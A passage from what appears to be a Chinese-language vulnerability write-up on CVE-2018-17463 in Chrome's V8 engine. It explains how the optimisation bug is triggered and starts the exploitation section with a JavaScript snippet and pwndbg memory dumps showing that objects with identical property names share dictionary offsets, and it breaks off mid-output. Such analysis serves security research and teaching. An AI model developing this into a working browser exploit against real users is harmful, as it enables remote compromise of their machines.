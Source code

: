 调用Object.create后，变成hash无序，此时properties+0x10处偏移为0x2，触发漏洞进行优化，o.outline仍按之前的偏移进行访问，值为0x2，不等于0x7777，显示有漏洞。

![image-20200804200807547](..\image\2020-07-28-CVE-2018-17463-IR优化漏洞分析\4.png)



## 漏洞利用

通过上述PoC代码可以看到，触发漏洞后会按固定偏移访问对象o的属性，但DictionaryProperties是一个hash表，各属性的偏移位置并不固定，所以访问一个固定偏移的数据得到的结果是随机的。进行漏洞利用需要用到v8的另一个特性，相同属性构造的Object，在DictionaryProperties中的偏移是相同的，PoC代码如下：

```javascript
let a1 = {x : 1,y:2,z:3};
a1.b = 4;
a1.c = 5;
a1.d = 6;
let a2 = {x : 2,y:3,z:4};
a2.b = 7;
a2.c = 8;
a2.d = 9;
Object.create(a1);
%DebugPrint(a1);
Object.create(a2);
%DebugPrint(a2);
%SystemBreak();
```

通过调试可以发现a1，a2虽然属性值不同，但在Properties中属性名相同的仍存在同一位置。即只要各属性名相同，对象的内存里各个属性所在的位置都是固定的。

```c
pwndbg> job 0x135d0948e229
0x135d0948e229: [JS_OBJECT_TYPE]
 - map: 0x2bfa4fa0cbb1 <Map(HOLEY_ELEMENTS)> [DictionaryProperties]
 - prototype: 0x0580d5d846d9 <Object map = 0x2bfa4fa022f1>
 - elements: 0x2b96c5a82cf1 <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x135d0948e591 <NameDictionary[53]> {
   #y: 2 (data, dict_index: 2, attrs: [WEC])
   #z: 3 (data, dict_index: 3, attrs: [WEC])
   #b: 4 (data, dict_index: 4, attrs: [WEC])
   #d: 6 (data, dict_index: 6, attrs: [WEC])
   #c: 5 (data, dict_index: 5, attrs: [WEC])
   #x: 1 (data, dict_index: 1, attrs: [WEC])
 }
pwndbg> job 0x135d0948e539
0x135d0948e539: [JS_OBJECT_TYPE]
 - map: 0x2bfa4fa0cc51 <Map(HOLEY_ELEMENTS)> [DictionaryProperties]
 - prototype: 0x0580d5d846d9 <Object map = 0x2bfa4fa022f1>
 - elements: 0x2b96c5a82cf1 <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x135d0948e781 <NameDictionary[53]> {
   #y: 3 (data, dict_index: 2, attrs: [WEC])
   #z: 4 (data, dict_index: 3, attrs: [WEC])
```